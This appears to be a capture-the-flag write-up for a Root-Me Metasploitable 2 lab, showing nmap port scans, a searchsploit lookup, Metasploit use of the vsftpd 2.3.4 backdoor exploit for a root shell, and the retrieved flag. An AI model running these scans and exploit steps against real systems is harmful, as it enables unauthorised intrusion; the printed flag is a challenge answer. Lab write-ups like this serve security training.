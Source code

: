 # Metasploitable 2

Start by scaning open ports !
```
nmap -sS --min-rate 5000 --open -Pn -n -vvv -p- ctf01.root-me.org -oG allPorts
```

Check details for open ports
```
nmap -sC -sV -p21,22,23,53,80,111,139,445,512,513,514,1099,1524,2049,2121,3306,3632,5432,5900,6000,6667,6697,8009,8180,8787,33365,34314,38911,47920 ctf01.root-me.org -oN targeted
```
> There are a lot but just the first one is usefull

Let's check carefully the [targeted](./nmap/targeted) file that we just created. Notice this
```
21/tcp    open  ftp         vsftpd 2.3.4
```

The version seems to be deprecated ! let's check some exploits !
```
searchsploit vsftpd 2.3.4
```

We find two !
```
vsftpd 2.3.4 - Backdoor Command Execution
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)
```

This script seems to not workking... let's try another method !

Method 2 using msfconsole !
```
msfconsole
```

Let's check for best exploits
```
search vsftp
```

We find this exploit !
```
exploit/unix/ftp/vsftpd_234_backdoor
```

So let's use it
```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
```

Ok, need to know the options
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
```

Have to set the ```rhost``` !
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhost 212.129.28.18
```
> Can know the ip with whatweb ctf01-root-me.org

Let's run it !
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```
> If the exploit doesn't work, try it again !

We're supposed to have a shell, if not write in your terminal
```
shell
```

In the interective shell, let's check who we are
```
id
```

We are ```root```, let's check the flag at the path ```/passwd```
```
cat passwd
```

We've got it !
```
e921bd2863edf595a6179721c81256f4
```

Done !
